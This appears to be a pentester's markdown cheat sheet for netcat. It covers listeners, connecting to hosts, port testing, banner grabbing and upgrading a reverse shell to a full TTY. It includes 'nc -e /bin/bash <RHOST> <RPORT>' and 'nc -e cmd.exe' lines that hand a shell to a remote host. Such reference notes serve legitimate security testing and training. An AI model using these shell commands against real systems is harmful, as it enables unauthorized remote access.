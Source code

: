 # Netcat - NC

## Listner

```
nc -nlvp <LPORT>
```

```
rlwrap nc -nlvp <LPORT>
```

## Connect

```
nc <RHOST> <RPORT>
```

Use `-e` to link the connection to a program 
```
nc -e /bin/bash <RHOST> <RPORT>
```

```
nc -e cmd.exe <RHOST> <RPORT>
```

## investigate ports

- test port
```
nc -zv <RHOST> <RPORT>
```

- get banner
```
echo "QUIT" | nc <RHOST> <RPORT>
```

- send http request
```
printf "GET / HTTP/1.0\r\n\r\n" | nc <RHOST> <RPORT>
```


## Stabilize Reverse Shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```




## Links

[Stabilize a reverse shell](https://tkcyber.com/index.php/2022/06/19/stabilize-a-reverse-shell/)
